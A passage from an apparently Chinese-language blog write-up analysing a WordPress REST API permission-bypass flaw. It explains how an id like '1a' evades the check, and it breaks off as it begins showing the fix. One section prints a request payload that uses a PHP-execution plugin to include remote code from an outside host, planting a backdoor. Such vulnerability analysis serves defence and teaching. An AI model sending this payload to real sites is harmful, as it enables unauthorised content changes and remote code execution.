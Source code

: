 分析第一条<kbd>if</kbd>语句可以得知，当<kbd>$post_id</kbd>不是纯数字时，该方法返回<kbd>false</kbd>导致<kbd>get_post</kbd>方法返回<kbd>null</kbd>，这样一来<kbd>update_item_permissions_check</kbd>方法中的$post为空，至此，成功绕过权限检查。

再来看<kbd>update_item</kbd>方法

{% highlight php %}

    public function update_item( $request ) {
        $id = (int) $request['id'];

        $comment = get_comment( $id );
        ......
        
{% endhighlight %}

在这里参数<kbd>id</kbd>被直接转为了<kbd>int</kbd>型,这里演示一下这样会造成什么结果。

{% capture images %}
	http://i4.buimg.com/589989/232ebaea1496cc4c.png
{% endcapture %}
{% include gallery images=images  cols=1 %}

也就是说如果<kbd>id=123helloworld</kbd>转为<kbd>int</kbd>型后<kbd>id=123</kbd>

结合绕过权限检查的方法就完美解释了为什么我们在漏洞演示中发送<kbd>id=1a</kbd>的请求最终受伤的是<kbd>id=1</kbd>的post。

### 0x03x02  利用拓展

如果存在漏洞的WordPress安装了如 <kbd>insert_php</kbd>,<kbd>exec_php</kbd>等允许页面执行PHP代码的插件，可以构造数据包上传

{% highlight html %}

content<spanclass="token punctuation">:</span>"<span class="tokenpunctuation">[</span>insert_php<span class="tokenpunctuation">]</span> <span class="tokenkeyword">include</span><span class="tokenpunctuation">(</span>'http<span class="tokenpunctuation">[</span><span class="tokenpunctuation">:</span><span class="tokencomment">]//acommeamour.fr/tmp/xx.php'); [/insert_php][php] include('http[:]//acommeamour.fr/tmp/xx.php'); [/php]","id":"61a"}  </span>

{% endhighlight %}

木马被插件当做PHP代码执行，导致植入后门。

## 0x04  漏洞修复
我们来对比分析一下官方是如何修复的。关键点<kbd>get_instance</kbd>方法

修复前：

{% highlight php %}

public static function get_instance( $post_id ) {
        global $wpdb;

        if ( ! is_numeric( $post_id ) || $post_id != floor( $post_id ) || ! $post_id ) {
            return false;
        }
        
{% endhighlight %}

修复后：
